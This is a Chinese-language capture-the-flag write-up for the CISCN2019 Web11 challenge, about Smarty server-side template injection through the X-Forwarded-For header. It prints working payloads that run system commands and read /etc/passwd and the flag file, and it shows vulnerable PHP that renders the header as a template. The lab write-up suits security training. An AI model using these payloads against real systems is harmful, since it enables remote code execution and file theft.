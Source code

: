 # \[CISCN2019 华东南赛区]Web11

## \[CISCN2019 华东南赛区]Web11

## 考点

* Smarty SSTI

## wp

其实是给了提示的，在请求头中加`XFF`，并且是smarty框架，smarty很经典的考点就是SSTI

![](<../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (10) (1) (1).png>)

burp抓包改XFF存在回显

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1).png>)

然后尝试SSTI

![](<../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png>)

再按照下图方法判断SSTI类型

![](../../.gitbook/assets/8sFfzWRJrj.png)

是Smarty SSTI

![](<../../.gitbook/assets/image (11) (1) (1).png>)

Smarty支持使用`{php}{/php}`标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。但是在<mark style="color:red;">Smarty3中已经废弃{php}标签</mark>。在Smarty 3.1中，`{php}`仅在SmartyBC中可用。

利用方法：

1. `{self::getStreamVariable("file:///etc/passwd")}`在3.1.30版本删除
2. `{if phpinfo()}{/if}`
3. `{{system('ls')}}`

payload：`{{system('cat /flag')}}`

## 小结

1. smarty SSTI源码

```php
<?php

require_once('./smarty/libs/' . 'Smarty.class.php');

$smarty = new Smarty();

$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];

$smarty->display("string:".$ip);

}
```
